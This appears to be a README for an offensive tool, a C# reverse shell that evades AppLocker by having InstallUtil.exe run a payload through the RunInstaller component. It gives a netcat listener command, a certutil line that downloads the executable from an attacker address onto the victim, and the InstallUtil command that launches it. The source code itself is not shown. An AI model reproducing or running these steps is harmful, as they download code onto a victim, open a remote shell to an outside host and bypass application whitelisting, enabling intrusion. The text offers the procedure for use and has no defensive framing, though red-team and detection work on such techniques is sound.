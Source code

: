 # Reverse Shell AppLocker Bypass with basic netcat listener
A .NET installation utility used for registering .NET assemblies can be used and reference the RunInstaller component to trigger the malicious payload that is not found in the 'main' call. 

Compile the csharp binary in Visual Studio and transfer to victim host with certutil. 


## Requirements: 
A netcat listener setup on same ip address and port number as listen in Program.cs on lines 25 and 26

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# Download file via certutil -urlcache -f http://ip/CLMBypass-shell.exe shell.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U shell.exe
```
